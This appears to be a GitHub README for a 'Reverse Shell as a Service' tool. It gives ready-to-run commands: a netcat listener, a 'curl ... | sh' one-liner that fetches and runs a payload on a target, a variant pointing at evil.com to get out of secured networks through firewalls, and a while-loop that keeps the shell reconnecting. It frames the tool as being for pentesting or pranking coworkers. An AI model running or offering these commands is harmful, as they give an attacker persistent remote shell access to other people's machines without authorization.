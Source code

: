 # reverse-shell

> Reverse Shell as a Service - https://resh.now.sh

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://resh.now.sh/yourip:port into sh.

```shell
curl https://resh.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://resh.now.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://resh.now.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://resh.now.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

## License

MIT © Virink

## Notice

> https://github.com/lukechilds/reverse-shell
